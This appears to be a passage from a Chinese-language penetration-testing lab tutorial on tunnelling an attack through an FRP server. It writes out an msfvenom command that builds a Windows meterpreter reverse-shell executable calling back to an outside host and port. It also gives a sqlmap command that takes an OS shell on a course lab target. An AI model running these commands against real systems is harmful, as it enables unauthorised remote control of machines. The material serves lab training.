![](https://gitee.com/fuli009/images/raw/master/public/20210809143255.png)

  

同时生成一个reverse.exe

msfvenom -p windows/meterpreter/reverse_tcp LHOST=202.100.1.3 LPORT=6000 -fexe
> reverse.exe

![](https://gitee.com/fuli009/images/raw/master/public/20210809143256.png)

上面的LPORT=6000记得要和你frp客户端（也就是紫色的kali）配置文件当中的remote_port要一样喔

然后在当前文件夹下面开启http服务（待会要用到）

![]()

  

OK!!!!至此，中间的FRP服务器已经配置好了（当然，上述的操作你也可以直接在紫色部分的kali当中直接ssh到中间这台服务器上面进行操作，这样子会更好的模拟真实环境当中的VPS效果。我这里为了记录文档就没这么做了）

下面就直接到紫色部分的Kali当中模拟攻击吧！！！（有一点忘记说了，接下来的kali当中你会看到shell的主题经常变，并不是换了一台kali，而是我的~/.zshrc当中主题部分写了”random”）

  

![](https://gitee.com/fuli009/images/raw/master/public/20210809143257.png)

  

 **1.首先先连接上 frp**

![](https://gitee.com/fuli009/images/raw/master/public/20210809143258.png)

  

![]()

  

此时你会看到远程的frp_server当中有连接提示

![](https://gitee.com/fuli009/images/raw/master/public/20210809143259.png)

  

  

 **2.使用 sqlmap直接对Server_5进行os-shell（这是月师傅SQLMAP课程当中的一台靶机）**

语句：  

  * 

    
    
    python sqlmap.py -u "http://www.dm1.com/inj.aspx?id=1" --dbmsmssql --batch --is-dba --os-shell -p id --random-agent

  

![](https://gitee.com/fuli009/images/raw/master/public/20210809143300.png)
